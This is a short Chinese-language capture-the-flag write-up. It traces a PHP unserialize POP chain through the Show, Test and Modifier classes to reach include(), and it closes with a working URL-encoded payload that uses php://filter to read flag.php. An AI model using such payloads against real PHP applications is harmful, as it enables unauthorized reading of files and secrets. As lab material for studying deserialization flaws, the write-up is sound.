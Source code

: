 ![upload successful](./images/pasted-331.png)
这里一进去发现是要审查源码，对源码进行分析，

首先我们看到include($value);这就是我们要获取flag的根本函数

并且提示flag在flag.php里面所有，就可以利用php://filter协议读取
flag.

所以我们的目标是要调用include函数，就要调用append方法，要调append()方法就要通过__invoke()，\__invoke()是当类被作为函数调用时触发。

所以我们要调\__invoke()方法，就要Modifier被作为函数调用，可以通过Test类的\__get方法把p传入Modifier对象作为函数调用。

现在就要调\__get方法，当调用Test类不存在的属性时就会触发\__get方法。所以调用\__get方法就可以利用Show类的\__toString()方法，给str传入Test类，然后调source属性。source属性不存在就会调Test类的\__get方法

现在就需要调用Show类的\__toString()方法，\__toString()方法是当类被当做字符输出是调用，所以，就利用Show的__construct方法触发，把source赋值为Show类

构造payload:<code>/index.php?pop=
O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BO%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3Bs%3A9%3A%22index.php%22%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7Ds%3A3%3A%22str%22%3BN%3B%7D
</code>

